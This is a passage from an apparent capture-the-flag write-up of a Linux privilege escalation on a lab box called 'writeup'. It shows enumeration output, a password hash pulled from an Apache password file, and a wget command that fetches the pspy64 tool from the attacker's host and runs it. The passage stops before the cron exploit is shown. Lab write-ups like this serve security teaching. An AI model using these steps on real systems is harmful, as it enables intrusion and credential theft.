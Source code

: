 ```bash
/var/local
/usr/local
/usr/local/bin
/usr/local/include
/usr/local/share
/usr/local/share/sgml
/usr/local/share/sgml/misc
/usr/local/share/sgml/stylesheet
/usr/local/share/sgml/entities
/usr/local/share/sgml/dtd
/usr/local/share/sgml/declaration
/usr/local/share/fonts
/usr/local/share/man
/usr/local/share/emacs
/usr/local/share/emacs/site-lisp
/usr/local/share/xml
/usr/local/share/xml/schema
/usr/local/share/xml/misc
/usr/local/share/xml/entities
/usr/local/share/xml/declaration
/usr/local/games
/usr/local/src
/usr/local/etc
/usr/local/lib
/usr/local/lib/python3.5
/usr/local/lib/python3.5/dist-packages
/usr/local/lib/python2.7
/usr/local/lib/python2.7/dist-packages
/usr/local/lib/python2.7/site-packages
/usr/local/sbin
  Group netdev:
```

`bin`, `games`, `sbin` were all highlighted - this leads me to think there is a `cron` exploit of some kind.

Finally, it also found a password hash:

```bash
[+] Searching specific hashes inside files - less false positives (limit 70)
/etc/apache2/passwords:$apr1$zXpnkbX6$LPzyE8Wa0d1yNQ4/F8aQa.
```

## Exploiting cron

I spent a bit of time figuring this out, but as always you can skip to the [[#Hijacking run-parts|working exploit]].

We'll run `pspy` to see what's happening on the box:

```bash
jkr@writeup:/tmp$ wget http://10.10.16.211:8000/pspy64
--2021-07-15 16:46:49--  http://10.10.16.211:8000/pspy64
Connecting to 10.10.16.211:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                             100%[=============================================================================================================>]   2.94M  1.40MB/s    in 2.1s    c

2021-07-15 16:46:52 (1.40 MB/s) - ‘pspy64’ saved [3078592/3078592]

jkr@writeup:/tmp$ chmod +x pspy64 
jkr@writeup:/tmp$ ./pspy64 
```